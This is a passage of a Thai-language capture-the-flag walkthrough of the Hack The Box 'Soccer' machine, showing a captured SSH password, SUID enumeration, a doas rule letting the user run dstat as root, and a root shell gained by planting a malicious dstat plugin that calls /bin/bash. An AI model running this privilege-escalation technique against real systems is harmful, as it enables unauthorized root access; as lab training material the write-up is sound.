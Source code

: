 ```bash
player@player.htb:PlayerOftheMatch2022
```


# Shell as player 

จากข้อมูลด้านบนทำให้เราสามารถ SSH เข้ามาได้ด้วย player 
```bash
player@soccer:/$ find / -perm -4000 2>/dev/null
/usr/local/bin/doas
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/at
/snap/snapd/17883/usr/lib/snapd/snap-confine
/snap/core20/1695/usr/bin/chfn
/snap/core20/1695/usr/bin/chsh
/snap/core20/1695/usr/bin/gpasswd
/snap/core20/1695/usr/bin/mount
/snap/core20/1695/usr/bin/newgrp
/snap/core20/1695/usr/bin/passwd
/snap/core20/1695/usr/bin/su
/snap/core20/1695/usr/bin/sudo
/snap/core20/1695/usr/bin/umount
/snap/core20/1695/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1695/usr/lib/openssh/ssh-keysign
player@soccer:/$ cat /usr/local/etc/doas.conf 
permit nopass player as root cmd /usr/bin/dstat
player@soccer:/$ 

```

จากข้อมูลด้านบนจะพบว่ามี doas ที่สามารถรันด้วยสิทธิ Root ได้ ไปที่โปรแกรม dstat ได้ 
# Priv es 

![[Challenge/HTB Challenge/Soccer/IMG/019.png]]


```bash
echo -e 'import os\n\nos.system("/bin/bash")' > /usr/local/share/dstat/dstat_ice.py

doas /usr/bin/dstat --ice
```

![[Challenge/HTB Challenge/Soccer/IMG/020.png]]

# PWNED